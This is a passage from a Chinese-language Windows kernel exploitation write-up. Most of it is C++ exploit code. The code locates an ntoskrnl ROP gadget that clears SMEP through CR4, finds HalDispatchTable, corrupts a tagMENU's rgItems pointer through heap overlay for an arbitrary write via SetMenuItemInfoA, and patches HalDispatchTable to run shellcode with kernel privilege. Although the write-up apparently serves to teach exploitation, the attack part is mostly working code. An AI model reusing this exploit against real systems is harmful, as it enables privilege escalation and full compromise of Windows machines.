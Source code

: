 ```
    ROPgadgets = PVOID((DWORD64)ntoskrnlbase() + 0x38a3cc);
    if ((DWORD64)ntoskrnlbase() == NULL)
    `{`
        cout &lt;&lt; "[*] Failed to get ntoskrnlbasen[*] Error code is " &lt;&lt; GetLastError() &lt;&lt; endl;
        system("pause");
        return FALSE;
    `}`
    /*nt!KiConfigureDynamicProcessor+0x40:
    *     fffff803`20ffe7cc 0f22e0          mov     cr4,rax
    *    fffff803`20ffe7cf 4883c428        add     rsp,28h
    *     fffff803`20ffe7d3 c3              ret
    */
    HalDispatchTable = (PVOID)GetHalOffset();
    if (!HalDispatchTable)
        return FALSE;

    cout &lt;&lt; "[+] ROPgadgets address is : " &lt;&lt; hex &lt;&lt; ROPgadgets &lt;&lt; endl;
    cout &lt;&lt; "[+] HalDispatchTable address is : " &lt;&lt; hex &lt;&lt; HalDispatchTable &lt;&lt; endl;
    return TRUE;
`}`
```

### <a class="reference-link" name="Get%20Shell"></a>Get Shell

我们覆盖了下一个堆头之后，后面再次创建一个 tagMENU ，我们可以用`SetMenuItemInfoA`函数修改 rgItems 字段从而实现任意写

```
VOID MakeNewMenu(PVOID menu_addr, CHAR* new_objects, LARGE_UNICODE_STRING* new_objs_lstr, PVOID addr)
`{`
    memset(new_objects, 'xAA', OVERLAY1_SIZE - _HEAP_BLOCK_SIZE);
    memcpy(new_objects + OVERLAY1_SIZE - _HEAP_BLOCK_SIZE, (CHAR *)menu_addr - _HEAP_BLOCK_SIZE, MENU_SIZE + _HEAP_BLOCK_SIZE);

    // modify _MENU.rgItems value
    *(ULONG_PTR *)(BYTE *)&amp;new_objects[OVERLAY1_SIZE + MENU_ITEMS_ARRAY_OFFSET] = (ULONG_PTR)addr;

    RtlInitLargeUnicodeString(new_objs_lstr, (WCHAR*)new_objects, (UINT) -1, OVERLAY1_SIZE + MENU_SIZE - 2);
`}`

MakeNewMenu(menu_addr, new_objects, &amp;new_objs_lstr, (PVOID)((ULONG_PTR)HalDispatchTable + 4));
```

在这之后我们将tagWND销毁，这将导致之后的 tagMENU 一并释放，然后用 NtUserDefText 新申请同样大小的堆块，则我们自定义的Menu就会放入进去，只是最后ShellCode执行前我们需要先绕过SMEP，这里只需要用 rop 即可，任意写的实现是对 tagMENU 的写入

```
VOID PatchDWORD(HMENU menu_handle, DWORD new_dword)
`{`
    MENUITEMINFOA mii;

    mii.cbSize = sizeof(mii);
    mii.fMask  = MIIM_ID;
    mii.wID    = new_dword;
    SetMenuItemInfoA(menu_handle, 0, TRUE, &amp;mii);
`}`

// patch HalDispatchTable
PatchDWORD(menu_handle, *(DWORD *)((BYTE *)&amp;rop_addr + 4));
RebuildMenu(new_objects, (PVOID)HalDispatchTable);
```